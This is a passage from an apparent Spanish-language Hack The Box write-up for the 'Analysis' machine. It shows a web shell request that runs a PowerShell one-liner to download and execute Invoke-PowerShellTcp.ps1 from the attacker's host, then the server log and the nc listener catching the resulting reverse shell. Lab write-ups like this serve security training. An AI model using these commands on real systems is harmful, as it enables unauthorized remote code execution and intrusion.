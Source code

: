 Ahora utilizamos este one-liner para descargar y ejecutar el script.
`http://internal.analysis.htb/dashboard/uploads/shell.php?cmd=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.13:8081/Invoke-PowerShellTcp.ps1%27)%20|%20powershell%20-noprofile%20-`

Y...
```shell
10.129.230.179 - - [12/Aug/2024 22:03:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```


```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 62413
Windows PowerShell running as user DC-ANALYSIS$ on DC-ANALYSIS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\internal\dashboard\uploads>whoami
analysis\svc_web
```

Podemos ver que el sistema está en francés, así que cuidado con el nombre de cuentas de usuario.
![Write-up Image](images/Screenshot_26.png)

De hecho podemos comprobar el nombre de la cuenta del administrador.
![Write-up Image](images/Screenshot_27.png)
